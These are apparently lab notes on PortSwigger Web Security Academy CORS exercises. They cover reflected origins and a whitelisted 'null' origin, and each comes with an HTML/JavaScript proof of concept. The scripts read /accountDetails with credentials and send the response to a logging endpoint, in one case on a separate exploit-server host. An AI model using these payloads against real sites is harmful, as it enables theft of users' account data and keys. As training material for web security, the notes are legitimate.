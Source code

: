 ### Server-generated ACAO header from client-specified Origin header
#### Test
- Observe that the origin is reflected in the Access-Control-Allow-Origin header. 
#### POC
```html
<script>
var req = new XMLHttpRequest;
req.onload = reqListener;
req.open('get','https://ac131f9e1f2ffb79807d38fa00110007.web-security-academy.net/accountDetails');
req.withCredentials = true;
req.send();

function reqListener(){
    location = "/log?key=" + this.responseText;
}
</script>
```

***

### Whitelisted null origin value
#### Test
-   Send the request to Burp Repeater, and resubmit it with the added header `Origin: null`
-   Observe that the "null" origin is reflected in the `Access-Control-Allow-Origin` header.
#### POC
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
   var req = new XMLHttpRequest ();
   req.onload = reqListener;
   req.open('get','https://ac4e1fba1fe3b48280393d1700d700b8.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='https://acb11ff01f81b44780bd3ddc012a00a3.web-security-academy.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

***

### [Exploiting XSS](https://portswigger.net/web-security/cross-site-scripting/exploiting) via CORS trust relationships

***

### [Breaking TLS with poorly configured CORS](https://portswigger.net/web-security/cors)

***

### CORS vulnerability with trusted insecure protocols
#### Test

	
